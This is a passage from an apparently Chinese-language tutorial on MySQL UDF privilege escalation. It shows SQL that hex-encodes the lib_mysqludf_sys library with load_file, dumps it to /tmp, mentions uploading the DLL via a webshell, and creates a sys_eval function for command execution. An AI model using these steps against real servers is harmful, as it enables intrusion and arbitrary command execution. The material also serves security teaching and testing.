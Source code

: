 这里的十六进制怎么获取呢？可以利用 MySQL 自带的 hex 函数来编码：

```sql
# 直接传入路径编码
SELECT hex(load_file('/lib_mysqludf_sys_64.so'));

# 也可以将路径 hex 编码
SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f));
```

一般为了更方便观察，可以将编码后的结果导入到新的文件中方便观察：

```sql
SELECT hex(load_file('/lib_mysqludf_sys_64.so')) into dumpfile '/tmp/udf.txt'; 

SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f)) into dumpfile '/tmp/udf.txt';
```

**方法三：**

当webshell有一定权限时，可以直接通过文件上传的方式，上传对应的`dll`文件

## 创建自定义函数并调用命令

- `CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';`

![image-20220729173706770](img/image-20220729173706770.png)
